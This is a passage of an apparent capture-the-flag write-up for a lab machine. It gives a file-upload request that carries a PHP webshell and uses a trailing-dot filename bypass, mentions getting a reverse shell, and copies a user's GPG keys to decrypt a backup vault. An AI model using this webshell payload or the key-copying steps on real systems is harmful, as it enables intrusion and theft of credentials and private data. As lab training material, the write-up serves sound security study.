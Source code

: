 A common bypass for this type of issue is to add a dot `.` at the end of the filename. This can trick the server into treating the file as a PHP script while still satisfying the file extension check.

I modified the filename to `123.php.` and tried again.

```http
-----------------------------168307501742120550952749914248
Content-Disposition: form-data; name="upload"; filename="123.php."
Content-Type: image/jpg
GIF89a
<?php eval($_GET["cmd"]);?>
-----------------------------168307501742120550952749914248--
```

This time, accessing the file at `http://environment.htb/upload/123.php.` successfully executed the webshell. I was able to use the shell to get a reverse shell as the `www-data` user.

From there, I located the `user.txt` file in the home directory of the user `hish`.

```bash
www-data@environment:/home/hish$ ls -al
...
-rw-r--r-- 1 root hish   33 May  7 21:46 user.txt
www-data@environment:/home/hish$ cat user.txt
985363b5exxxxxxxxxxx
```

-----

### 🔐 Privilege Escalation to `hish`

While enumerating `hish`'s home directory, I found a `backup` directory containing a GPG-encrypted file named `keyvault.gpg`.

```bash
www-data@environment:/home/hish/backup$ ls -al
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 May  7 21:48 keyvault.gpg
```

The permissions on this file allow `hish` to read it. I checked the `.gnupg` directory in `hish`'s home directory and found that `www-data` had read access. This meant I could copy `hish`'s GPG keys and use them to decrypt the file.

```bash
# 1. Copy hish's GPG directory to a writable location
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. Set the correct permissions for gpg to work
chmod -R 700 /tmp/mygnupg

# 3. List the secret keys to confirm the copy worked
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. Decrypt the keyvault.gpg file
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```
